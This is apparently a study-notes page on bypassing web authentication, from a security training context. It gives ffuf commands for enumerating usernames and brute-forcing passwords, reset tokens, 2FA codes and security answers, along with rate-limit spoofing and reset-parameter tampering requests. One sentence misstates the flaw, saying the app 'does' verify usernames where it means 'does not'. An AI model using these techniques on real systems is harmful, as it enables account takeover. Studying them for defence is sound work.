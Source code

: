 ```yaml
---
layout: default
title: Bypassing Authentication
permalink: /Web/bypass_auth/
---
```


We will mainly focus on knowledge-based authentication.

# User Enumeration
- Web applications could reveal whether a username exists or not by showing different error messages for the two cases or a chat application might show other users by username to chat with.
- A good starting point is the wordlist collection [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames).
```
ffuf -w /path/to/xato-net-10-million-usernames.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
- Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response, e.g. the time it takes for the web application's response to reach us.

# Brute-Forcing Passwords
Ensuring that a good wordlist is used for the attack is crucial.
If a web application enforces a password policy, we should ensure that our wordlist only contains passwords that match the implemented password policy.
```
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
```
wc -l custom_wordlist.txt
```
```
ffuf -w ./custom_wordlist.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
# Brute-Forcing Password Reset Tokens
Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.
As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account. <br>
To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. <br>
In case of 4 digit reset token:
```
seq -w 0 9999 > tokens.txt
```
The -w flag pads all numbers to the same length by prepending zeroes.
Verify with `head token.txt`.
```
ffuf -w ./tokens.txt -u http://$domain/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
# Brute-Forcing 2FA Codes

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits.

```
seq -w 0 9999 > tokens.txt
```
```
ffuf -w ./tokens.txt -u http://$domain/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=mrjm73bh8e53qcej2744h7k44p" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
With that we will get hits after the session successfully passed the 2FA check because we had supplied the correct TOTP. The first hit was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to the logged in page.
## Rate Limits
A rate limit should only be enforced on an attacker, not regular users, to prevent DoS scenarios. Many rate limit implementation rely on the IP address to identify the attacker. However, there are middleboxes such as reverse proxies, load balancers, or web caches, a request's source IP address will belong to the middlebox, not the attacker. Thus, some rate limits rely on HTTP headers such as X-Forwarded-For to obtain the actual source IP address. This causes an issue as an attacker can set arbitrary HTTP headers in request, bypassing the rate limit entirely.
## CAPTCHAs
The abbreviation stands for: Completely Automated Public Turing test to tell Computers and Humans Apart, although these test could be solved with AI nowadays (see this [link](https://arstechnica.com/information-technology/2025/07/openais-chatgpt-agent-casually-clicks-through-i-am-not-a-robot-verification-test/)). There are many open-source CAPTCHA solvers too.

# Testing Default Credentials
[CIRT.net](https://www.cirt.net/passwords) is a database for default credentials. Further resources include [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub repository which contains a list of default passwords for a variety of different vendors.
You should always search for default credentials in case you find the used technology/device.

# Vulnerable Password Reset
## Guessable Password Reset Questions
These questions can often be obtained through OSINT or guessed, given a sufficient number of attempts, i.e., a lack of brute-force protection. <br>
For instance, [this](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
We could narrow down the cities if we had additional information:
```
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```
Check:
```
wc -l german_cities.txt
```
Brute-force the answer:
```
ffuf -w ./german_cities.txt -u http://$ip:$port/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "<incorrect_response>"
```
## Manipulating the Reset Request
Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.
Suppose supplying the security response London results in the following request:
```
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```
So the username is contained in the form as a hidden parameter and sent along with the security response. Then we can reset the user's password and the final request looks like this:
```
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```
Like the previous request, the request contains the username in a separate POST parameter. Suppose the web application does properly verify that the usernames in both requests match. In that case, we can skip the security question or supply the answer to our security question and then set the password of an entirely different account.
